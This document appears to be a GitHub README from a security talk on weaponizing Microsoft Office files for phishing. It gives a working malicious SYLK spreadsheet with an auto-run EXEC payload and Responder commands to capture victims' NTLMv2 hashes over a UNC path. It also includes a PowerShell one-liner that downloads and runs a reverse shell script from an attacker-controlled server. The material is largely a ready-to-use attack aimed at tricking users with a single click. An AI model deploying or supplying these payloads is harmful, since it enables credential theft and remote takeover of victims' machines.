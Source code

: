 # Weaponizing-Office

## Introduction:
I did a talk at [0xC0ffee](https://0xc0ffee.co.za), where I discussed different ways to weaponize microsoft office.
What was different about the talk, was that these methods have been discovered prior to 2017, and did not require a lot of user interaction to execute the payloads. These methods work great with phishing attacks.

I decided not to use a standard way to present my talk, so [@MTB_m00se](https://twitter.com/MTB_m00se) introduced me to terminal markdown where I found [patat](https://github.com/jaspervdj/patat)

I recently discovered a tool called [Responder[(https://github.com/SpiderLabs/Responder), which I used in my talk.
I mainly used Responder to capture NTLMv2 hashes from victom machines.

I found a great [article](https://medium.com/@petergombos/lm-ntlm-net-ntlmv2-oh-my-a9b235c58ed4) explaining what is NTLMv2 hashes and what can be done with it.

Below is a short extract from the article:
> This is the way passwords are stored on modern Windows systems, and can be obtained by dumping the SAM database, or using Mimikatz. They are also stored on domain controllers in the NTDS file. These are the hashes you can use to pass-the-hash.

## Contents:
1. Excel (.SLK)
2. Outlook (file://)
3. Word (frameset)

Objective is to capture NTLMv2 hashes by using the above programs. The user should not have to do more than 1 click after downloading the office file. 

```BONUS: will try to get reverse shells as well```

## 1. Excel (.SLK)

> An SLK file is a file saved in the Symbolic Link (SYLK) format created by Microsoft to transfer data between spreadsheet programs and other databases. 

I found this exploit on [ired.team](https://ired.team/offensive-security/phishing-with-ms-office/phishing-.slk-excel) which gave a great walkthrough oh how to exactact perform RCE in an SLK file.

### Excel RCE 

#### Setup
1. Create an new text file, put the the below code and save it as .slk file:
```
ID;P
O;E
NN;NAuto_open;ER101C1;KOut Flank;F
C;X1;Y101;K0;EEXEC("c:\shell.cmd")
C;X1;Y102;K0;EHALT()
E
```
2. DONE `HOLY SHIT THAT WAS HARD!!`

#### Capture NTLMv2 Hash

Setup Responder `./Responder.py -I ens4 -vvv`

Replace `c:\shell.cmd` with `cmd.exe /c \\IP\IPC$`. Please make sure the IP is your IP.

Once the file.slk is opened the user will need to click on `Enable Content`. Once the user clicks the button the payload is executed. Once the button is clicked Excel, every time after that the payload will be executed when the file is openned (Unless the files is renamed).

![](excel_NTLMv2_hash_capture.gif)

### Excel RCE - Powershell Reverse shell(BONUS)

1. Change the `cmd.exe /c \\IP\IPC$` to 

````
powershell IEX 
	(New-Object Net.WebClient).DownloadString(
	'http://192.168.56.101/test.ps1')
````
2. set up `test.ps1` on a server. 
test.ps1 is a [powershell reverse shell](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#powershell)

More on [Symbolic Link](https://en.wikipedia.org/wiki/SYmbolic_LinK_(SYLK)) files
